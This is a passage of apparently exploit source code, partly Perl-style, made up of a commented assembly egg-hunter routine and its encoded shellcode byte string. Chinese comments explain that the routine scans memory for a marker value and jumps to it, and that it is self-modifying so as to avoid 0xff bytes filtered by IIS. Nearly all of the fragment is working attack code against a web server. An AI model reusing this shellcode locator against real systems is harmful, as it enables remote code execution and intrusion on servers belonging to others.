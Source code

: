 #        SUB EAX,66566666h;
#        PUSH EAX;
#        POP EDI;
#        PUSH 21212121h;
#        POP ECX;
#        MOV EAX,59584553h;
#        REPNE SCAS DWORD PTR ES:[EDI];
#decode:
#        _emit 0x89;
#        _emit 0xE7; JMP EDI
#    }
#}
#
#
#void main()
#{
#    myfindsc();
#}
#

# 修改用于定位Shellcode的代码, 由于该代码需要调
# 用call或者jmp等指令以跳转到Shellcode的地方, 此
# 类指令包含了0xff, 会被IIS过滤, 所以这里采用了自
# 修改的形式将0xff patch掉. 本来想要alpha2加密,
# 但是加密后内容太长.
$myfindsc =
"x8bxd4xdbxd2xd9x72xf4x5dx55x5bx6ax76x58".
"x30x43x27xb8x66x66x66x66x2dx66x66x5Fx66".
"x50x5fx68x21x21x21x21x59xb8x53x45x58x59".
"xf2xafx89xe7";
